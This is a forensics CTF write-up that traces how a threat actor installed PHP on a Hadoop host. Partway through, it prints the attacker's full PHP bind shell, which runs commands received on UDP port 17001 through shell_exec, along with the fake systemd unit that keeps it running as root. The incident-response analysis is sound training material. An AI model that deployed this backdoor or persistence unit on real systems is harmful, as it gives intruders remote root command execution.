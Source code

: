 ```yaml
---
title: Magnet Weekly CTF 8 - Incident Response
excerpt: Solution to the Magnet Forensics CTF 8th week challenge. This week's challenge asks about some installed packages and a compromise.
categories: [CTF, Magnet 2020]
tags: magnet-ctf ctf forensics
author: clark
---
```


### Challenge 1 – 15pts

> What package(s) were installed by the threat actor? Select the most correct answer!

This challenge asks us to find a package installed by the threat actor. We know from past weeks that `apt` is used on this system to install packages. Looking at the `apt` log file found at `/var/log/apt/history.log` shows an interesting last package. 

```
Start-Date: 2019-10-07  01:30:31
Commandline: apt install php
Install: php7.0-cli:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php-common:amd64 (1:35ubuntu6.1, automatic), php7.0-fpm:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-opcache:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-common:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php:amd64 (1:7.0+35ubuntu6.1), php7.0-json:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-readline:amd64 (7.0.33-0ubuntu0.16.04.6, automatic)
End-Date: 2019-10-07  01:30:41
```

This particular package was the last package installed and the only package installed since 2017. It's likely this image was made in response to the attack, and it makes sense the last package installed was installed by the attacker, especially with such a time difference. 

Entering in `php` reveals it is indeed the correct solution. 
{:.success}

### Challenge 2 - 5pts

Solving the first question releases another challenge.

> Why?
    - Hosting a database
    - Serving a webpage
    - To run a php webshell
    - Create a fake systemd service

Hm. Why would a threat actor install php of all things? Maybe the bash history recorded some commands the attacker ran. Grepping the `.bash_history` file under `/home/hadoop` for `php` reveals a single command:

```
ll /usr/local/hadoop/bin/cluster.php
```

Interesting. The contents of that file:

```
<?php

error_reporting(0);

$sock = socket_create(AF_INET, SOCK_DGRAM, SOL_UDP);
//socket_set_option ($sock, SOL_SOCKET, SO_REUSEADDR, 1); 
if (socket_bind($sock, '0.0.0.0', 17001) == true) {
        $error_code = socket_last_error();
        $error_msg = socket_strerror($error_code);
        //echo "code: ", $error_code, " msg: ", $error_msg;

        for (;;) {
            socket_recvfrom($sock, $message, 1024000, 0, $ip, $port);
            $reply = shell_exec($message);
            socket_sendto($sock, $reply, strlen($reply), 0, $ip, $port);
        }
}
else {  exit;   }

?>
```

Ah. This php script loads a bind shell on port `17001` that can execute commands using `shell_exec`. This rules out using php for `Hosting a database`, `Serving a webpage`, and `To run a php webshell`. So the solution must be `Create a fake systemd service`? Lets double check. 

Using `ls -la etc/systemd/system/` we can see the system services:

```
drwxr-xr-x 12 root root 4096 Oct  6  2019 .
drwxr-xr-x  5 root root 4096 Nov  7  2017 ..
-rw-rw-r--  1 root root  246 Oct  6  2019 cluster.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 default.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 final.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 getty.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 graphical.target.wants
lrwxrwxrwx  1 root root   38 Nov  7  2017 iscsi.service -> /lib/systemd/system/open-iscsi.service
drwxr-xr-x  2 root root 4096 Oct  6  2019 multi-user.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 network-online.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 paths.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 sockets.target.wants
lrwxrwxrwx  1 root root   31 Nov  7  2017 sshd.service -> /lib/systemd/system/ssh.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 sysinit.target.wants
lrwxrwxrwx  1 root root   35 Nov  7  2017 syslog.service -> /lib/systemd/system/rsyslog.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 timers.target.wants
```

Hm. `clsuter.php` and `cluster.service`... Let's check that out with `cat etc/systemd/system/cluster.service`. 

```
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/env php /usr/local/hadoop/bin/cluster.php

[Install]
WantedBy=multi-user.target
```

So a bind shell is created using `cluster.php` which is started via a systemd service! Entering `Create a fake systemd service` reveals it is the correct solution!
{:.success}